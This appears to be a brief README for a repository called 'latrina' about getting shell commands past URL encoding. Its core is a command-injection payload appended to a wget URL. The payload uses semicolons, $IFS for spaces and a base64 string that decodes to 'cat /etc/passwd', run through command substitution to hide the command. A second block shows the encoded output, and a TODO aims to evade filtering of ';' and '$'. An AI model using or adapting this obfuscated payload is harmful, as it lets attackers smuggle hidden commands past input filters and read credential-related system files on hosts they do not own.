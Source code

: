 # latrina
bypass url encoding with nontrivial commands

```
wget https://github.com/kusky3/latrina/raw/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c<<<$a)
```

current output
```
https://github.com/kusky3/latrina/blob/main/%3Ba%3D('Y2F0IC9ldGMvcGFzc3dkCg%3D%3D')%3Bb%3D('base')%3Bc%3D%24IFS%3Bd%3D64%3B%24(%24b%24d%24c-d%24c%3C%3C%3C%24a)
```

# TODO
bypass ; and $
